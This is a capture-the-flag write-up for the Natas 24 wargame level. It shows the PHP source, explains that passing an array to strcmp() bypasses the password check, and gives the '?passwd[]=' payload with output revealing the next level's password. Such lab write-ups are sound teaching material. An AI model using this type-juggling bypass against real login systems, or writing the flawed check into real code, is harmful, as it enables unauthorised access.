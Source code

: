 # Natas-24

## Source:

```php

<?php
if(array_key_exists("passwd",$_REQUEST)){

	if(!strcmp($_REQUEST["passwd"],"<censored>")){
		echo "<br>The credentials for the next level are:<br>";
		echo "<pre>Username: natas25 Password: <censored></pre>";
	}
	else{
		echo "<br>Wrong!<br>";
	}

}
// morla / 10111
?>
```

strcmp() returns NULL when one of its parameters is an array and !NULL returns True .

This condition for checking passwd can be bypassed by passing an array in $_REQUEST[”passwd”].

 ?passwd[]=

```
**Warning**
: strcmp() expects parameter 1 to be string, array given in
**/var/www/natas/natas24/index.php**
on line
**23**

The credentials for the next level are:
Username: natas25 
Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c
```
